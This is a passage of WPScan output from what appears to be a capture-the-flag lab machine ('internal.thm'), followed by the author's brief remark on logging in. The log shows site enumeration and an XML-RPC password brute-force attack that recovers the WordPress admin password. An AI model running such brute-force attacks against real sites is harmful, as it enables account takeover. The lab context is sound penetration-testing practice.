 [+] The external WP-Cron seems to be enabled: http://10.10.140.182/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.140.182/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.140.182/blog/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:06 <=============================================================================> (137 / 137) 100.00% Time: 00:00:06

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                                                 
Trying admin / kambal Time: 00:01:01 <                                                                             > (3900 / 14348292)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue May  6 21:12:08 2025
[+] Requests Done: 4067
[+] Cached Requests: 4
[+] Data Sent: 2.056 MB
[+] Data Received: 2.491 MB
[+] Memory used: 265.516 MB
[+] Elapsed time: 00:01:17

Current administration email: **admin@internal.thm**

i hit this email is correct when asked to verify email http://internal.thm/blog/wp-admin/index.php btw the credentials admin my2boys worked